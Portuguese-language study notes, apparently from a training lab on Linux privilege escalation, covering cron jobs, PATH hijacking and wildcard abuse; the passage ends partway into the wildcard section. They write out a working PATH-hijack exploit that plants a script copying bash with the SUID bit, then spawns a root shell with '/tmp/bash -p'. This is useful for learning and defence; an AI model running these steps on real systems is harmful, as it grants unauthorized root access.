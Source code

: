 - Se atentar as tarefas que estão rodando a todo tempo
- No exemplo de cima, são `overwrite.sh` e `compress.sh`, isso da pra ver pelos asteriscos
- Também precisa ver o PATH, porque pode ser explorável
- [Payload All The Things - Schedule Tasks](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#scheduled-tasks)


## Cron Paths

- Olhar nos primeiros caminhos do Path pra ver se existe os arquivos do cron

```
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

* * * * * root overwrite.sh
* * * * * root /usr/local/bin/compress.sh
```

- O trecho acima foi coletado do exemplo anterior. É possível ver que o primeiro lugar que vai procurar o overwrite é em /home/user

```
TCM@debian:~/tools/linpeas$ ls -la /home/user/over*
ls: cannot access /home/user/over*: No such file or director

TCM@debian:~/tools/linpeas$ echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh
TCM@debian:~/tools/linpeas$ chmod +x /home/user/overwrite.sh
TCM@debian:~/tools/linpeas$ ls -la /tmp
total 1108
drwxrwxrwt  2 root root   4096 Feb  1 09:21 .
drwxr-xr-x 22 root root   4096 Jun 17  2020 ..
-rw-r--r--  1 root root 181543 Feb  1 09:21 backup.tar.gz
-rwsr-sr-x  1 root root 926536 Feb  1 09:21 bash
-rw-r--r--  1 root root     28 Feb  1 09:20 useless
# O bash ta com o SUID setado e como executável

TCM@debian:~/tools/linpeas$ /tmp/bash -p
bash-4.1# whoami
root
```


## Cron Wildcards


```
TCM@debian:~/tools/linpeas$ cat /usr/local/bin/compress.sh
#!/bin/sh
cd /home/user
tar czf /tmp/backup.tar.gz *
# Esta fazendo um backup com um wildcard

ls -la /usr/local/bin/compress.sh 
-rwxr--r-- 1 root staff 53 May 13  2017 /usr/local/bin/compress.sh
# Somente permissão de leitura
```
